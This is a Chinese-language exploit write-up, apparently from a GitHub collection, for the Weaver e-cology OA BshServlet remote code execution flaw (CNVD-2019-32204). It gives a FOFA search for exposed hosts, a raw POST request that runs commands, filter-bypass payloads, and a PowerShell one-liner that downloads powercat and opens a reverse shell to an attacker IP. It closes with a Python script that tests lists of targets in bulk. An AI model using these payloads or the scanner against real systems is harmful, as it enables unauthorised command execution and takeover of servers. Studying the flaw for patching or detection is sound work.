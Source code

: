 # 泛微OA E-Cology BshServlet 远程代码执行漏洞 CNVD-2019-32204

## 漏洞描述

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

## FOFA

```
app=“泛微-协同办公OA”
```

## 影响版本

```
E-cology 7.0
E-cology 8.0
E-cology 8.1
E-cology 9.0
```

## 漏洞复现

直接在网站根目录后加入组件访问路径 /weaver/bsh.servlet.BshServlet/，如下图在victim上执行了命令“whoami”

![image-20220209104639420](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091046499.png)

请求包为

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=ex\u0065c("cmd /c dir");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

**关于绕过**

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```

## 漏洞POC

https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204

```python
#/usr/bin/python
#coding:utf-8
#Author:Ja0k
#For Weaver-Ecology-OA_RCE

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

import requests,sys

headers = {
    'Content-Type': 'text/xml; charset=utf-8',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0',
    'Cache-Control': 'max-age=0',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Upgrade-Insecure-Requests': '1',
    'Content-Length': '578'
}

proxies= {'http':'http://127.0.0.1:8080'}
            
def Poc_check(target):

    Url_Payload1="/bsh.servlet.BshServlet"
    Url_Payload2="/weaver/bsh.servlet.BshServlet"
    Url_Payload3="/weaveroa/bsh.servlet.BshServlet"
    Url_Payload4="/oa/bsh.servlet.BshServlet"
    
    Data_Payload1="""bsh.script=exec("whoami");&bsh.servlet.output=raw"""
    Data_Payload2= """bsh.script=\u0065\u0078\u0065\u0063("whoami");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw"""
    Data_Payload3= """bsh.script=eval%00("ex"%2b"ec(bsh.httpServletRequest.getParameter(\\"command\\"))");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&command=whoami"""
    for Url_Payload in (Url_Payload1,Url_Payload2,Url_Payload3,Url_Payload4):
        url= target + Url_Payload
        for Data_payload in (Data_Payload1,Data_Payload2,Data_Payload3): 
            try:
                http_response = requests.post(url,data=Data_payload,headers=headers,verify=False)
                #print http_response.status_code
                if http_response.status_code == 200:
                    if ";</script>" not in (http_response.content):
                        if "Login.jsp" not in (http_response.content):
                            if "Error" not in (http_response.content):
                                print "{0} is a E-cologyOA_RCE Vulnerability".format(url)
                                print "Server Current Username：{0}".format(http_response.content)
                elif http_response.status_code == 500:
                    print "{0}500 maybe is Weaver-EcologyOA，Please confirm by yourself ".format(url)
                else:
                    pass              
            except Exception,Error:
                pass    
    
if __name__ == '__main__':
    for line in open(sys.argv[1]).readlines():
        target=line.strip()
        Poc_check(target)
```

```plain
#1.install python Dependencies Library 
pip install requests

#2.批量脚本 执行 
python Weaver-Ecology-OA_RCE-exp.py 


url.txt文件中 是url地址 需要带http协议
```